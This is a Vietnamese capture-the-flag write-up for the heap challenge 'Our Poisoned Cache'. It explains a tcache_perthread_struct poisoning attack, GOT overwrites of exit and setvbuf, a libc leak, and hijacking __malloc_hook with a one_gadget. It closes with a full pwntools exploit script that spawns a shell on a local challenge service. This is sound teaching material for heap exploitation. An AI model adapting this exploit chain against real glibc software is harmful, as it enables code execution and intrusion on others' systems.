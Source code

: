 # Our Poisoned Cache

## Summary
  Ý định của mình cho vòng qual chỉ là một bài pwn heap cơ bản liên quan đến **tcache struct attack** . Ban đầu challenge không có stack leak mà chỉ có heap leak tuy nhiên điều này tạo ra một challenge rất hạn hẹp và nhàm chán, dù gì thì đây cũng chỉ là một bài introduction đến với heap exploit. Tuy nhiên solution của mình sẽ không dùng đến stack leak có sẵn.
  
## Description

>My h4ck3r friend said that my program can be exploited, something something related to poisoning. I don't understack this hacking's lingo. Can you exploit this and read my file flag.txt?

![image](https://user-images.githubusercontent.com/101010673/174489807-04014b5a-7138-4afb-b016-6c767391df3a.png)  

  - Hint ở đây là liên quan đến **tcache poisoning**. Nhưng khác với technique thông thường chúng ta sẽ không overwrite lên tcache chunk đã bị free, mà chúng ta sẽ exploit thẳng vào tcache struct nằm sẵn ở trên heap.
  - Đồng thời nhận thấy đây là **partial RELRO** và **NO PIE**. Ta sẽ exploit cả vào **GOT Table**

## Reversing
  ![image](https://user-images.githubusercontent.com/101010673/174490407-e48b3b86-b3c8-4b5a-a67b-3c9f9ff4fa56.png)  

  Đây là phần quan trọng nhất của cả chương trình. Work flow của chương trình là như sau:  
  - **Malloc** 0x40 bytes chunk  
  - **Malloc** 0x10 bytes chunk (Tránh chunk consolidation)  
  - Cho ta biết **heap base** và **stack address**
  - **Free** 0x40 bytes chunk  
  - Cho ta **arbitrary write chỉ riêng trên heap** 
  ![image](https://user-images.githubusercontent.com/101010673/174490474-4022bc33-2af5-4b30-a7a5-c6f7929785c6.png)  
      
  - Chỉ **malloc** 0x40 bytes chunk 1 lần nữa nếu ta đã không ghi đè vào **fd pointer** của freed tcache chunk, và **bk pointer** nằm trong heap range  
  ![image](https://user-images.githubusercontent.com/101010673/174490505-b9ec90f3-da1b-4b58-8705-5bf2441e4235.png)  
  - **Chỉ chunk 0x40 bytes lần 2 là ta có quyền nhập vào 0x30 bytes.**  
  - Chương trình sẽ exit ngay sau đó  
    
  => Với restriction này ta không thể thực hiện **tcache poisoning** thông thường

## Prerequisite Knowledge
  Trước tiên chúng ta cần nói qua về **tcache struct attack**:  
```c
  typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];//0x40
  tcache_entry *entries[TCACHE_MAX_BINS];//0x40
} tcache_perthread_struct;
```  
  - Khi chương trình dùng đến **TCACHE**, thì **tcache_perthread_struct** sẽ được initialized và được lưu trữ ngay trên heap  
  ![image](https://user-images.githubusercontent.com/101010673/174491121-d069fa38-a099-453c-9864-84c5a8826255.png)  
  - Nó chính là chunk đầu tiên với size `0x290 bytes`
  - Struct tcache sẽ bao gồm một array *counts* đầu tiên với 0x40 bytes. Mỗi bytes sẽ đại diện cho số lượng tcache với size đó mà ta hiện có)  
  - Một array *entries* chính là **address của chunk đứng đầu trên single linked list** của tcache với từng size một. 
  ![image](https://user-images.githubusercontent.com/101010673/174491555-9f603fa8-e8ca-411f-872c-36e5af12dc4e.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491573-022e2a56-f9db-4276-9483-9a762cb55066.png)   
  - Một tcache linked list thông thường sẽ như sau: Size 0x20: Chunk 1 -> Chunk 2 -> Chunk 3 -> ..... -> Chunk 7 ( Tcache của một size chỉ cố tối đa **7 chunk**)
  - Với **tcache poisoning** thông thường ta sẽ pollute **fd (forward) pointer** để làm thay đổi linked list dẫn đến chunk tiếp theo sẽ trả về một địa chỉ khác.
  - Size 0x20: Chunk 1 -> Chunk 2(fd pointer poisoned) -> (The address we poisoned with) -> corrupted
  - Như vậy lần **malloc** thứ nhất với size 0x20 bytes, chương trình kiểm tra tcache và thấy có chunk 1 free -> Chương trình trả về chunk này cho chúng ta
  - Lần **malloc** thứ hai tương tự, nhưng lần này sau chunk 2 lại trỏ đến một address khác (Ta đã poison tcache)
  - Lần **malloc** thứ ba, sẽ trả về address mà ta đã poison
  - Tuy nhiên như đã nói ở trên chương trình có kiểm tra xem **fd pointer** của chunk có bị corrupt không thế nên ta sẽ không tấn công vào đây mà sẽ tấn công ngay vào **entries** hay chính là chunk đầu tiên  
  ![image](https://user-images.githubusercontent.com/101010673/174491604-6f550d5b-8772-4192-b2c1-6350ce65e842.png)  
  - **0x4052a0** chính là entries tương ứng với 0x50 size tcache chunks và ta cần ghi đè địa chỉ này thành địa chỉ khác

## Arbitrary Write
  Từ kiến thức về **tcache struct attack** ở trên ta đã có khả năng để **arbitrary write ngoài vùng heap** với ý tưởng như sau:
  - Quay lại về flow của chương trình: ptr = malloc(0x40) -> free(ptr) -> malloc(0x40)
  - Như vậy sau lần malloc đầu rồi free, tcache 0x50 sẽ có một chunk đấy chính là **0x4052a0**  
  - Ta sẽ ghi đè địa chỉ này lần malloc sau đó sẽ trả về address ta mong muốn  
  
  Ví dụ: Ta ghi đè với **0x405310**  
  ![image](https://user-images.githubusercontent.com/101010673/174491852-0a10a91c-3de1-4ff9-9c91-8d284adab2a7.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491913-a489e067-d9e8-46a5-bffc-fc2559fbcf68.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491894-bbce2064-b7a9-470e-b9ec-fbe069bb8d8f.png)  
  
  Giờ thì ta có thể ghi đè **GOT Table**, ghi đè **GOT của exit** thành địa chỉ của main để ta có thể chạy chương trình vô hạn lần
  
  **Chú ý:** Sau khi ta ghi đè **entries** xong thì **fd pointer** của chunk tiếp theo sẽ tiếp tục bị corrupt, nên ta cần phải ghi đè lại **fd pointer** thành null để thỏa mãn điều kiện malloc lần 2  
  ![image](https://user-images.githubusercontent.com/101010673/174492474-8d9928dc-d621-4965-822e-049dda9d33a9.png)  
  8 bytes đầu tiên không còn là null như lần đầu nữa nên ta cần ghi đè lại  
  
## Info-leak
  Đầu tiên ta cần leak được địa chỉ libc, solution của mình sẽ leak thông qua **setvbuf**  
  ![image](https://user-images.githubusercontent.com/101010673/174492592-9786c4cb-ea04-48c1-873e-24d56761aeab.png)  
  - Nếu **GOT của setvbuf** trở thành **printf**, thì ta sẽ in ra được giá trị lưu tại địa chỉ global **stdin,stdout,stderr**  
  - Mà các địa chỉ global kia lại được lưu ở **.bss** -> ta có thể ghi đè cả địa chỉ global này  
  => Ta có thể leak giá trị ở bất kì địa chỉ nào mà ta mong muốn  

## Control RIP  
  - Để kiểm soát được luồng thực thi của chương trình (Hijacking RIP), ta sẽ dùng trick phổ biến: ghi đè **__malloc_hook** thành **one_gadget**  
  - Như vậy mỗi khi chương trình gọi **malloc** -> gọi **malloc_hook** -> gọi **one_gadget**  
  ![image](https://user-images.githubusercontent.com/101010673/175662573-0fe3c977-35f6-4338-aa4b-b892f81c10bc.png)   
  - Mình sử dụng **one_gadget** nằm ở offset **0xe3b01**  
 
## Full exploit script  
```python
from pwn import *

r = remote("127.0.0.1",2005)

#r = gdb.debug("./our_poisoned_cache_patched")
context.log_level = 1
r.recvuntil("is: ")
heap_base = int(r.recvline()[0:-1],16)
r.recvuntil("is: ")
stack_addr = int(r.recvline()[0:-1],16)
overwrite_tcache = heap_base + 0xa8
exit_got = 0x404068
free_got = 0x404018
stderr = 0x4040a0
main = 0x004012c7
setvbuf = 0x404050
log.info("Overwriting exit GOT to point to main")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(exit_got)))
r.send(p64(main))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x310)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting setvbuf to point to printf")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(setvbuf)))
r.send(p64(0x401050) + p64(0x401016))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x3f0)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting stderr to another address point to read GOT")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(stderr)))
r.send(p64(0x404040))
r.recv(8)


log.info("Setvbuf will now print out libc address stored at read GOT")
leak_libc = u64(r.recv(6).ljust(8,"\x00"))
libc_base = leak_libc - 0x10dfc0
malloc_hook = libc_base + 0x1ecb70
one_gadget = libc_base + 0xe3b01
log.info("Libc Base Address: " + hex(libc_base))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x4d0)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting __malloc_hook to one_gadget")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(malloc_hook)))

r.send(p64(one_gadget))
r.clean()
r.interactive()

```  
![image](https://user-images.githubusercontent.com/101010673/174493058-839a6328-e738-441d-a9fc-c9f32cbab67c.png)


  

  
  
  
  


  
  


